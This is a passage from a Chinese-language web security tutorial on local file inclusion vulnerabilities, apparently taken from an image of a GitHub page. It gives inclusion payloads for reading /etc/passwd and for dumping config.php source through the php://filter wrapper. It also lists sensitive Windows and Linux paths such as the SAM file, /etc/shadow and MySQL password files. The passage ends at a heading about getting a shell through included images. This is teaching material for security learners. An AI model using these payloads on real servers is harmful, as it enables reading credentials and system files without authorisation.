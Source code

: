 具体形成原因由代码和环境配置文件决定

### 本地文件包含漏洞

#### 无限制本地文件包含漏洞

**读取敏感文件**

通过目录遍历漏洞可以获取到系统中其他文件的内容

```bash
?a=/etc/passwd
```

**常见的敏感信息路径：**

Windows系统

```
c:\boot.ini // 查看系统版本

c:\windows\system32\inetsrv\MetaBase.xml // IIS配置文件

c:\windows\repair\sam // 存储Windows系统初次安装的密码

c:\ProgramFiles\mysql\my.ini // MySQL配置

c:\ProgramFiles\mysql\data\mysql\user.MYD // MySQL root密码

c:\windows\php.ini // php 配置信息
```

Linux/Unix系统

```
/etc/passwd // 账户信息

/etc/shadow // 账户密码文件

/usr/local/app/apache2/conf/httpd.conf // Apache2默认配置文件

/usr/local/app/apache2/conf/extra/httpd-vhost.conf // 虚拟网站配置

/usr/local/app/php5/lib/php.ini // PHP相关配置

/etc/httpd/conf/httpd.conf // Apache配置文件

/etc/my.conf // mysql 配置文件
```

**利用封装协议读源码**

```bash
?a=php://filter/read=convert.base64-encode/resource=config.php
```

**包含图片Getshell**
